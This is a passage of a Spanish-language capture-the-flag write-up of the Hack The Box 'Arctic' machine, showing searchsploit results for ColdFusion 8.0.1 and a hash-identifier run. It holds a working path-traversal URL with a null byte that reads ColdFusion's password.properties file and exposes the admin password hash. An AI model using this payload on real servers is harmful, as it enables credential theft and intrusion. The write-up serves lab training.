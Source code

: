 ```bash
Adobe ColdFusion Server 8.0.1 - '/wizards/common/_logintowizard.cfm' Query String Cross-Site Scr | cfm/webapps/33169.txt
Adobe ColdFusion Server 8.0.1 - 'administrator/logviewer/searchlog.cfm?startRow' Cross-Site Scri | cfm/webapps/33168.txt
------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

De acuerdo con el exploit, existe la posiblidad de acceso a la siguiente ruta: `http://10.10.10.11:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en`; ingresando, nos encontramos el panel de administración y el hash de la contraseña. Podriamos trata de identificar que tipo de hash se trata mediante el uso de la herramienta `hash-identifier`

![""](/assets/images/htb-arctic/arctic_pass.png)

```bash
❯ hash-identifier -h
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------
                                
 Not Found.          
--------------------------------------------------
 HASH: 2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
```